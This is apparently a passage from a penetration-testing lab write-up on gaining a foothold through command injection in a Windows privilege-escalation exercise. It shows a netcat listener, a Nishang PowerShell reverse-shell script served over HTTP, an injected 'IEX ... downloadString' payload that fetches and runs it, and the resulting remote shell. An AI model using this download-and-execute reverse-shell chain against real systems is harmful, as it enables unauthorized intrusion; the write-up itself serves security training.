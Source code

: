 #### Foothold - Command Injection

![Firefox - Command Injection Attempt](./assets/screenshots/windows_privilege_escalation_skills_assessment_02.png)

```
┌──(nabla㉿kali)-[~]
└─$ rlwrap nc -lvnp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/revsh.ps1
```

```
┌──(nabla㉿kali)-[~]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.186 -Port 1337' >> ~/revsh.ps1
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```
10.10.15.186 && powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.15.186:8000/revsh.ps1')
```

![Firefox - Command Injection Reverse Shell](./assets/screenshots/windows_privilege_escalation_skills_assessment_03.png)

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.216.148] 49678
Windows PowerShell running as user WINLPE-SKILLS1-$ on WINLPE-SKILLS1-
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>
```
